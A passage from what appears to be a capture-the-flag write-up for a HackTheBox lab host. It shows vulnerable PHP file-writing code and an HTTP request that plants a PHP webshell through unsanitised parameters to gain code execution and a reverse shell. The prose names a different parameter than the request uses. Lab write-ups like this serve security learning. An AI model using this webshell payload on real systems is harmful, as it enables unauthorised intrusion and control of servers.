 This creates an `/uploads` directory and makes it **writeable**. This means that we can actually use the LFI to write a file. The reason this works is because of the code below:

```php
$html = "<div class = \"blog-h1 blue-fill\"><b>{$_POST['header']}</b></div>";
    $post_file = fopen("{$_POST['id']}", "w");
    fwrite($post_file, $html);
    fclose($post_file);
```

The `header` parameter would have the contents of the PHP webshell, while the `id` parameter would have the full path of the file to be written since both are not sanitised. I used this HTTP request:

{% code overflow="wrap" %}
```http
POST /edit/index.php HTTP/1.1
Host: test.microblog.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 87
Origin: http://test.microblog.htb
Connection: close
Referer: http://test.microblog.htb/edit/
Cookie: username=1cl26pbf4ftqkk0s7i5ntv84iv
Upgrade-Insecure-Requests: 1



id=/var/www/microblog/test/uploads/rev.php&txt=<%3fphp+system($_REQUEST['cmd'])%3b+%3f>
```
{% endcode %}

Afterwards, we can confirm we have RCE:

<figure><img src="../../.gitbook/assets/image (685).png" alt=""><figcaption></figcaption></figure>

And then we can get a reverse shell:

<figure><img src="../../.gitbook/assets/image (694) (1).png" alt=""><figcaption></figcaption></figure>

